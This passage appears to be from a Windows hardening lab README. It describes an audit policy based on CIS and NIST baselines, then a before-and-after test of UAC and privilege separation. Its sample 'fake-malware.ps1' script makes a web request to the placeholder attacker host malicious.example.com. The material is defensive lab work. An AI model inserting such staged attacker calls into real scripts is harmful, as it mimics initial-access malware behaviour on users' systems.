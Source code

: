 ### Notes

Audit events were selected to balance signal-to-noise and reflect real-world audit baselines aligned with CIS and NIST guidance. This configuration provides foundational visibility for a Tier 1 or Tier 2 support environment, without overwhelming log volume.

Audit categories specific to domain infrastructure or high-noise object tracking (such as Directory Service Access and Object Access) were intentionally excluded, as they are not relevant to this standalone lab and would add unnecessary complexity without benefit.

![Audit Policy](./images/audit_policy_configured.png)

--- 
## Simulated Payload Test (Before vs. After)

### Purpose
To evaluate how user privilege separation and UAC enforcement affect the execution of a potentially malicious PowerShell script — simulating an initial access attempt commonly observed in real-world attacks.

### Method
A harmless PowerShell script was created to mimic suspicious behavior — including a staged outbound HTTP request:

```powershell
# fake-malware.ps1
Write-Output "Connecting to attacker..."
Start-Sleep -Seconds 2
Invoke-WebRequest http://malicious.example.com -UseBasicParsing
Write-Output "Payload delivered."
```
